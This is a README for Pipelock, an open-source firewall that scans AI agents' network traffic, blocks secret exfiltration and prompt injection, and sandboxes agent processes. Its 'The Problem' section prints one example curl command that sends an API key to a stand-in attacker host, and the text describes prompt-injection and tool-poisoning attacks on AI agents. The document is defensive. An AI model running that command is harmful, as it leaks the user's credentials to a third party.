

<p align="center">
  
</p>

# Pipelock

[](https://github.com/luckyPipewrench/pipelock/actions/workflows/ci.yaml)
[](https://github.com/luckyPipewrench/pipelock/actions/workflows/security.yaml)
[](https://goreportcard.com/report/github.com/luckyPipewrench/pipelock)
[](https://github.com/luckyPipewrench/pipelock/releases)
[](https://scorecard.dev/viewer/?uri=github.com/luckyPipewrench/pipelock)
[](https://www.bestpractices.dev/projects/11948)
[](https://codecov.io/gh/luckyPipewrench/pipelock)
[](https://coderabbit.ai)
[](LICENSE) [](enterprise/LICENSE)

**Open-source [agent firewall](https://pipelab.org/agent-firewall/).** Network scanning, process containment, and tool policy enforcement in a single binary.

**Works with:** Claude Code · Cursor · VS Code · JetBrains · OpenAI Agents SDK · Google ADK · AutoGen · CrewAI · LangGraph

[Quick Start](#quick-start) · [What It Does](#what-it-does) · [Docs](docs/) · [Blog](https://pipelab.org/blog/) · [Ask Dosu](https://app.dosu.dev/bcccd1cf-be85-4c0e-ae05-edeb0ff50b59/ask)

## The Problem

Your AI agent has `$ANTHROPIC_API_KEY` in its environment, plus shell access. One request is all it takes:

```bash
curl "https://evil.com/steal?key=$ANTHROPIC_API_KEY"   # game over, unless pipelock is watching
```

Every machine action your agent takes (HTTP requests, tool calls, browser sessions) crosses a boundary between your secrets and the open internet. Pipelock sits at that boundary. It scans every outbound and inbound request, blocks exfiltration and injection, sandboxes the agent process, and generates signed evidence of what happened.


## Quick Start

```bash
# Install
brew install luckyPipewrench/tap/pipelock

# Set up (discovers IDE configs, generates config, verifies detection)
pipelock init

# Test it
pipelock check --url "https://example.com/?key=EXAMPLE-SECRET-VALUE-1234"  # blocked
pipelock check --url "https://docs.python.org/3/"                            # allowed
```

<details>
<summary>Other install methods</summary>

```bash
# Download a binary (no dependencies)
# See https://github.com/luckyPipewrench/pipelock/releases

# Docker
docker pull ghcr.io/luckypipewrench/pipelock:latest

# From source (requires Go 1.25+)
go install github.com/luckyPipewrench/pipelock/cmd/pipelock@latest
```

</details>

<details>
<summary>Verify release integrity (SLSA provenance + SBOM)</summary>

```bash
gh attestation verify pipelock_*_linux_amd64.tar.gz --owner luckyPipewrench
gh attestation verify oci://ghcr.io/luckypipewrench/pipelock:<version> --owner luckyPipewrench
```

</details>

## What It Does

Pipelock is an [agent firewall](https://pipelab.org/agent-firewall/): it sits inline between your AI agent and the internet, scanning outbound and inbound traffic.

### Detect

- **11-layer URL scanner:** Scheme validation, CRLF/traversal blocking, domain blocklist, DLP, path entropy, subdomain entropy, SSRF/DNS-rebinding, rate limits, URL length, data budgets
- **48 DLP patterns** with 6-pass normalization (base64, hex, URL-encoding, NFKC Unicode, leetspeak, vowel folding) and checksum validation (Luhn, IBAN, WIF)
- **25 response injection patterns** covering jailbreaks, credential solicitation, memory persistence, covert actions, and CJK-language injection
- **MCP tool poisoning + drift detection:** Full-schema recursive extraction catches CyberArk-style exfiltration in tool descriptions; rug-pull detection flags mid-session schema changes
- **A2A protocol scanning:** Agent Card poisoning, card drift, session smuggling
- **Cross-request exfiltration:** Per-session entropy budgets catch secrets split across multiple requests
- **Canary tokens, denial-of-wallet detection, behavioral baseline, filesystem sentinel**

### Enforce

- **Process sandbox:** Landlock + seccomp + network namespaces on Linux, sandbox-exec on macOS. No Docker, no root required.
- **Kill switch:** 4 independent sources (config, SIGUSR1, sentinel file, API). Any one active blocks all traffic. The API can run on a separate port (`api_listen`) so agents can't self-deactivate.
- **MCP tool policy:** Pre-execution allow/deny/redirect rules on tool calls. Shell obfuscation detection built in.
- **Adaptive enforcement:** Per-session threat scoring with automatic escalation. Actions tighten as suspicion accumulates, loosen after clean traffic.
- **TLS interception:** Optional CONNECT tunnel MITM for full body/header/response scanning on encrypted traffic.

### Prove

- **Security assessments** (`pipelock assess`): Attack simulation + config audit + deployment verification. Signed HTML reports with Ed25519 attestation.
- **Flight recorder:** Hash-chained JSONL evidence log with signed checkpoints and DLP redaction.
- **Compliance mappings:** OWASP MCP Top 10, OWASP Agentic Top 15, NIST 800-53, EU AI Act, SOC 2.
- **Agent Bill of Materials:** CycloneDX 1.6 BOM with declared vs observed tool inventory.
- **Session manifests, config scoring, signed reports.**

## How It Works

Pipelock uses **capability separation**: the agent process has secrets but no direct network access. Pipelock has network access but no agent secrets. Even if the agent gets prompt-injected, it can't reach the firewall's controls.

Three HTTP proxy modes (same port), plus dedicated MCP and A2A proxies:

- **Fetch proxy** (`/fetch?url=...`): Fetches the URL, extracts text, scans for injection, returns clean content.
- **Forward proxy** (`HTTPS_PROXY`): Standard HTTP CONNECT tunneling. Zero code changes. Optional TLS interception for full payload scanning.
- **WebSocket proxy** (`/ws?url=ws://...`): Bidirectional frame scanning with DLP + injection detection.
- **MCP proxy** (`pipelock mcp proxy`): Wraps stdio or HTTP MCP servers with bidirectional scanning.
- **A2A proxy**: Inspects Google Agent-to-Agent protocol traffic.


```mermaid
flowchart LR
    subgraph PRIV["PRIVILEGED ZONE"]
        Agent["AI Agent\nAPI keys + credentials + source code\nNetwork-isolated by deployment"]
    end

    subgraph FW["FIREWALL ZONE"]
        Proxy["Pipelock\n11-layer scanner pipeline\nNo agent secrets"]
    end

    subgraph NET["INTERNET"]
        Web["APIs + MCP Servers + Web"]
    end

    Agent -- "fetch / CONNECT / ws / MCP" --> Proxy
    Proxy -- "scanned request" --> Web
    Web -- "response" --> Proxy
    Proxy -- "scanned content" --> Agent

    style PRIV fill:#2d1117,stroke:#f85149,color:#e6edf3
    style FW fill:#0d2818,stroke:#3fb950,color:#e6edf3
    style NET fill:#0d1b2e,stroke:#58a6ff,color:#e6edf3
    style Agent fill:#1a1a2e,stroke:#f85149,color:#e6edf3
    style Proxy fill:#0d2818,stroke:#3fb950,color:#e6edf3
    style Web fill:#0d1b2e,stroke:#58a6ff,color:#e6edf3
```

<details>
<summary>Text diagram (for terminals)</summary>

```
┌──────────────────────┐         ┌───────────────────────┐
│  PRIVILEGED ZONE     │         │  FIREWALL ZONE        │
│                      │         │                       │
│  AI Agent            │  IPC    │  Pipelock             │
│  - Has API keys      │────────>│  - No agent secrets   │
│  - Has credentials   │ fetch / │  - Full internet      │
│  - Restricted network│ CONNECT │  - Returns text       │
│                      │ /ws     │  - WS frame scanning  │
│                      │<────────│  - URL scanning       │
│                      │ content │  - Audit logging      │
│                      │         │                       │
└──────────────────────┘         └───────────────────────┘
```

</details>

## Configuration

Generate a config from one of three CLI presets, or let `pipelock audit` tailor one to your project:

```bash
pipelock generate config --preset balanced > pipelock.yaml
pipelock audit ./my-project -o pipelock.yaml
```

| CLI Preset | Mode | Action | Best For |
|------------|------|--------|----------|
| `balanced` | balanced | warn | General purpose (default) |
| `strict` | strict | block | High-security, regulated industries |
| `audit` | audit | warn | Log-only evaluation |

Four additional preset files ship in `configs/` for specific workflows:

| File | Mode | Best For |
|------|------|----------|
| `configs/claude-code.yaml` | balanced | Claude Code unattended |
| `configs/cursor.yaml` | balanced | Cursor IDE |
| `configs/generic-agent.yaml` | balanced | New agents (tuning phase) |
| `configs/hostile-model.yaml` | strict | Uncensored/abliterated models |

Config changes are picked up automatically via file watcher or SIGHUP. Full reference: **[docs/configuration.md](docs/configuration.md)**

For false positive tuning: **[docs/false-positive-tuning.md](docs/false-positive-tuning.md)**

## Integration Guides

- **[Claude Code](docs/guides/claude-code.md):** MCP proxy setup, `.claude.json` configuration
- **[OpenAI Codex](docs/guides/codex.md):** MCP proxy wrapping, forward proxy, sandbox integration
- **[OpenAI Agents SDK](docs/guides/openai-agents.md):** `MCPServerStdio`, multi-agent handoffs
- **[Google ADK](docs/guides/google-adk.md):** `McpToolset`, `StdioConnectionParams`
- **[AutoGen](docs/guides/autogen.md):** `StdioServerParams`, `mcp_server_tools()`
- **[CrewAI](docs/guides/crewai.md):** `MCPServerStdio` wrapping, `MCPServerAdapter`
- **[LangGraph](docs/guides/langgraph.md):** `MultiServerMCPClient`, `StateGraph`
- **[JetBrains/Junie](docs/guides/jetbrains.md):** MCP proxy wrapping for IntelliJ, PyCharm, GoLand
- **Cursor:** use `configs/cursor.yaml` with the same MCP proxy pattern as [Claude Code](docs/guides/claude-code.md)
- **[OpenClaw](docs/guides/openclaw.md):** Gateway sidecar, init container, config wrapping

## Deployment

```bash
# Docker
docker pull ghcr.io/luckypipewrench/pipelock:latest
docker run -p 8888:8888 -v ./pipelock.yaml:/config/pipelock.yaml:ro \
  ghcr.io/luckypipewrench/pipelock:latest \
  run --config /config/pipelock.yaml --listen 0.0.0.0:8888

# Network-isolated agent (Docker Compose)
pipelock generate docker-compose --agent claude-code -o docker-compose.yaml
docker compose up

# Kubernetes (Helm)
helm install pipelock charts/pipelock/
```

Production recipes (Docker Compose with network isolation, Kubernetes sidecar + NetworkPolicy, iptables/nftables, macOS PF): **[docs/guides/deployment-recipes.md](docs/guides/deployment-recipes.md)**

## CI Integration

```yaml
# .github/workflows/pipelock.yaml
- uses: luckyPipewrench/pipelock@v2
  with:
    scan-diff: 'true'
    fail-on-findings: 'true'
```

Downloads a pre-built binary, runs `pipelock audit`, scans the PR diff for leaked secrets, and uploads the audit report as a workflow artifact. See [`examples/ci-workflow.yaml`](examples/ci-workflow.yaml) for a complete workflow.

## Community Rules

Signed rule bundles add detection patterns beyond the 48 built-in defaults. 28 community rules across DLP, injection, and tool-poison categories:

```bash
pipelock rules install pipelock-community
```

See [docs/rules.md](docs/rules.md) for details.

## Comparison

| | Pipelock | Scanners (agent-scan) | Sandboxes (srt) | Kernel agents (agentsh) |
|---|---|---|---|---|
| Secret exfiltration prevention | Yes | Partial (proxy mode) | Partial (domain-level) | Yes |
| DLP + entropy analysis | Yes | No | No | Partial |
| Prompt injection detection | Yes | Yes | No | No |
| MCP scanning (bidirectional + tool poisoning) | Yes | Yes | No | No |
| WebSocket proxy (frame scanning) | Yes | No | No | No |
| MCP HTTP transport (Streamable HTTP) | Yes | No | No | No |
| Emergency kill switch (4 sources) | Yes | No | No | No |
| Tool call chain detection | Yes | No | No | No |
| Process sandbox (no Docker) | Yes | No | No | Yes (kernel-level) |
| Single binary, zero deps | Yes | No (Python) | No (npm) | No (kernel) |

Full comparison: [docs/comparison.md](docs/comparison.md)

## Docs

| Document | What's In It |
|----------|-------------|
| [Configuration Reference](docs/configuration.md) | All config fields, defaults, hot-reload behavior, presets |
| [False Positive Tuning](docs/false-positive-tuning.md) | Identifying, suppressing, and tuning scanner findings |
| [Scan API](docs/scan-api.md) | Evaluation endpoint for programmatic scanning |
| [Deployment Recipes](docs/guides/deployment-recipes.md) | Docker Compose, K8s sidecar, iptables, macOS PF |
| [Bypass Resistance](docs/bypass-resistance.md) | Known evasion techniques, mitigations, limitations |
| [Known Attacks Blocked](docs/attacks-blocked.md) | Real attacks with repro snippets |
| [SIEM Integration](docs/guides/siem-integration.md) | Log schema, forwarding patterns, SIEM queries |
| [Metrics Reference](docs/metrics.md) | All 45 Prometheus metrics, alert rules |
| [Community Rules](docs/rules.md) | Install, configure, and create signed rule bundles |
| [Security Assurance](docs/security-assurance.md) | Security model, trust boundaries, supply chain |
| [Finding Suppression](docs/guides/suppression.md) | Rule names, path matching, inline comments |
| [Transport Modes](docs/guides/transport-modes.md) | All proxy modes and their scanning capabilities |
| [OWASP MCP Top 10](docs/compliance/owasp-mcp-top10.md) | OWASP MCP Top 10 coverage |
| [OWASP Agentic Top 15](docs/owasp-agentic-top15-mapping.md) | OWASP Agentic AI Top 15 coverage |
| [EU AI Act](docs/compliance/eu-ai-act-mapping.md) | EU AI Act compliance mapping |
| [NIST 800-53](docs/compliance/nist-800-53.md) | NIST SP 800-53 Rev. 5 controls mapping |
| [Policy Spec v0.1](docs/policy-spec-v0.1.md) | Portable agent firewall policy format |

## Project Structure

```text
cmd/pipelock/          CLI entry point
internal/
  cli/                 20+ Cobra commands (run, check, init, generate, mcp, ...)
  config/              YAML config, validation, defaults, hot-reload (fsnotify)
  scanner/             11-layer URL scanning pipeline + response injection detection
  audit/               Structured JSON logging (zerolog) + event emission dispatch
  proxy/               HTTP proxy: fetch, forward (CONNECT), WebSocket, DNS pinning, TLS
  mcp/                 MCP proxy + bidirectional scanning + tool poisoning + chains
  discover/            IDE/agent config discovery (Claude Code, Cursor, VS Code, JetBrains)
  killswitch/          Emergency deny-all (4 sources) + port-isolated API
  sandbox/             Landlock, seccomp, netns, macOS sandbox-exec
  signing/             Ed25519 key management
  integrity/           SHA256 file integrity monitoring
  report/              HTML/JSON audit report generation
enterprise/            Multi-agent features (ELv2)
charts/                Helm chart for Kubernetes deployment
configs/               7 preset config files
docs/                  Guides, references, compliance mappings
```

## Testing

Pipelock is tested like a security product. The open-source core has thousands of unit, integration, and end-to-end tests. A separate private adversarial suite exercises real-world attack classes against the production binary. Every bypass graduates into a regression test before release.

| Metric | Value |
|--------|-------|
| Go tests (with `-race`) | 10,000+ |
| Statement coverage | 88%+ |
| Evasion techniques tested | 230+ |
| Scanner pipeline overhead | ~32us per URL scan |
| CI matrix | Go 1.25 + 1.26, CodeQL, golangci-lint |
| Supply chain | SLSA provenance, CycloneDX SBOM, cosign signatures |

Run `make test` to verify locally. Independent benchmark: [agent-egress-bench](https://github.com/luckyPipewrench/agent-egress-bench) (143 attack cases across 16 categories).

## Credits

- Architecture influenced by [Anthropic's Claude Code sandboxing](https://www.anthropic.com/engineering/claude-code-sandboxing) and [sandbox-runtime](https://github.com/anthropic-experimental/sandbox-runtime)
- Threat model informed by [OWASP Agentic AI Top 10](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/)
- See [docs/comparison.md](docs/comparison.md) for how Pipelock relates to other tools in this space
- Security review contributions from Dylan Corrales

Contributions welcome. See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines.

If Pipelock is useful, please [star this repository](https://github.com/luckyPipewrench/pipelock). It helps others find the project.

## License

Pipelock core is licensed under the **Apache License 2.0**. Copyright 2026 Joshua Waldrep.

Multi-agent features (per-agent identity, budgets, and configuration isolation)
are in the `enterprise/` directory, gated by the `enterprise` build tag and licensed
under the **Elastic License 2.0 (ELv2)**. These features activate with a valid license key.

The open-source core works independently without paid features. All scanning, detection,
and single-agent protection is free.

Pre-built release artifacts (Homebrew, GitHub releases, Docker images) include paid-tier
code that activates with a valid license key. Building from source with `go install` or the
repository `Dockerfile` produces a Community-only binary.

See [LICENSE](LICENSE) for the Apache 2.0 text and [enterprise/LICENSE](enterprise/LICENSE) for the ELv2 text.
